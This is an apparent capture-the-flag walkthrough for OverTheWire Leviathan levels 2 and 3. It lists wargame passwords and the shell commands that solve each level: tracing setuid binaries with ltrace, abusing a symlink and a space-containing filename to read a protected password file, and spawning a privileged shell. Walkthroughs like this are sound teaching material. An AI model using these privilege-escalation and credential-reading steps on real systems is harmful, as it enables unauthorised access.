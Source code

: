 ## Level 2:
CMD:
```bash
ssh leviathan2@leviathan.labs.overthewire.org -p 2223
```
Passowrd:
```bash
NsN1HwFoyN
```
Solution:
```bash
ls -la
./printfile
./printfile /etc/leviathan_pass/leviathan3
ltrace ./printfile
mkdir /tmp/mydir8
touch /tmp/mydir8/"test file.txt"
ls -la /tmp/mydir8
./printfile /tmp/mydir8/"test file.txt"
ln -s /etc/leviathan_pass/leviathan3 /tmp/mydir8/test
ls -la /tmp/mydir8
./printfile /tmp/mydir8/"test file.txt"
```
**Password: f0n8h2iWLP**

## Level 3:
CMD:
```bash
ssh leviathan3@leviathan.labs.overthewire.org -p 2223
```
Passowrd:
```bash
f0n8h2iWLP
```
Solution:
```bash
ls -la
ltrace ./level3
```
Enter Something and in the next line you can see,
`strcmp("\n", "snlprintf\n")`

```bash
snlprintf
```
```bash
/bin/bash -p
```
```bash
whoami
cat /etc/leviathan_pass/leviathan4
```
**Password: WG1egElCvO**
